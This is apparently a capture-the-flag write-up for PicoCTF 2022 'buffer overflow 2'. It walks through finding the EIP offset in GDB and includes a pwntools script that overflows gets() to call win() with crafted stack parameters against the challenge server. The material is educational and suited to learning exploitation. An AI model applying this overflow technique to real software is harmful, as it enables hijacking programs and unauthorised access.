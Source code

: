 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 2"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "A ret2win challenge that involves parameters on the call stack."
---
```


A ret2win challenge that involves parameters on the call stack.

## Preamble - The Call Stack

Referring to the following diagram of a call stack,
![Call Stack](https://avinetworks.com/wp-content/uploads/2020/06/buffer-overflow-diagram.png)

We wish to note the relative locations of the base pointer, return function and parameters on our call stack. This will come in handy later.

## My Solution

As usual, we will look at the `vuln` binary. Using `checksec`, we observe the following:

```bash
$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

From this, we can crucially see that the file is a 32-bit little-endian ELF file with no stack canary. NX is enabled, but I don't think this will affect our approach for this challenge.

Now, looking at `vuln.c`, we can note down some interesting features.

```c
...
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As mentioned earlier, parameters are involved in this challenge. We can see that the `win()` function takes in two parameters, `arg1` and `arg2`. Within the function, we can see that the win condition is fulfilled if and only if `arg1` and `arg2` are equivalent to `0xCAFEF00D` and `0xF00DF00D`.

Aside from this, nothing else seems out of the ordinary. We'll just need to insert our parameters into the call stack when we run our exploit.

Now, let's use `readelf` to find the function addresses.

```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
...
73: 08049372   122 FUNC    GLOBAL DEFAULT   15 main
...
```

For this challenge, we'll note down that the addresses of `win()` and `main()` are `0x08049296` and `0x08049372` respectively.

Let's find the offset to EIP using GDB.

```bash
$ gdb vuln
>> ...
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
...
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```

Therefore, the offset to EIP is 112.

We can now craft our exploit. Using Python 3 and pwntools:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 51325) # for remote execution

# payload buffer
payload = b'A' * 112 # offset
payload += p32(0x08049296) # win()
payload += p32(0x08049372) # main() - return function address
payload += p32(0xCAFEF00D) # param 1
payload += p32(0xF00DF00D) # param 2

p.recvline().decode("utf-8")
p.sendline(payload)
print(p.recvall())
```

```bash
[+] Opening connection to saturn.picoctf.net on port 51325: Done
picoCTF{argum3nt5_4_d4yZ_59cd5643}Please enter your string:

[*] Closed connection to saturn.picoctf.net port 51325
```

## Learning Takeaways

### How is this any different from a typical 32-bit ret2win challenge?

Recall that parameters are involved. This means that we need to craft our payload in such a manner that it can emulate a "normal" call stack.

For a standard 32-bit ret2win challenge, all we need to do is insert the address of our flag/win function into the buffer (which exists on the call stack). This was seen from our solution to the [buffer overflow 1](https://yhwong20.github.io/picoctf/binary%20exploitation/buffer-overflow-1/) challenge. This would alter the execution flow of our program, as we are now artificially inducing the execution of our flag function, by inserting it into the call stack.

What's different here, is that `win()` takes in 2 parameters. Hence, we need to add in these parameters into the call stack to trigger the win condition. If we do not insert the correct parameters, or if parameters are missing, it will cause the program to not execute correctly.

### Why does the payload look like that?

Recall the diagram of the call stack which was shown earlier, and the relative order of each region on the stack.

Firstly, for us to reach and overwrite the region of the call stack which stores parameters, we will need to go through the 4 byte space which stores the address of our return function. This means that the address of the return function must be added to the payload (after `win()`).

Normally, the return function would be `main()`, and this is also why I've chosen to preserve it in the payload (to ensure the program can run properly). However, I think it is also possible to insert any arbitrary address into the return address space (I've tried inserting `0x0` which worked just as fine). Ultimately, we just want to preserve the relative order of the stack in the payload, and this means that the return function address must be present.

Next, we'll insert our parameters. As per the **cdecl** calling conventions, which are used for x86 32-bit binaries, parameters are stored on the call stack in reverse order (generally speaking, the last argument is pushed onto the stack first, and the first argument is pushed last). This means that `arg2` is passed onto the call stack before `arg1`, and consequently, `arg2` is higher in memory than `arg1`. Since we want to emulate the call stack using our payload, we have to preserve the relative ordering of parameters as well.

Thus, we craft the payload in such a manner to ensure that `arg2` is higher in memory than `arg1`, and `win()` is as low in memory as possible (after the buffer). The earlier we insert something into the payload, the lower it should exist in memory, and this helps us maintain the relative structure and order of the call stack.

## References

- [John Hammond (YouTube): Pwntools & GDB for Buffer Overflow w/ Arguments (PicoCTF 2022 #43 'buffer-overflow2')](https://www.youtube.com/watch?v=26mEa1Ojux8&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=44)
- [CTF 101 - Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)
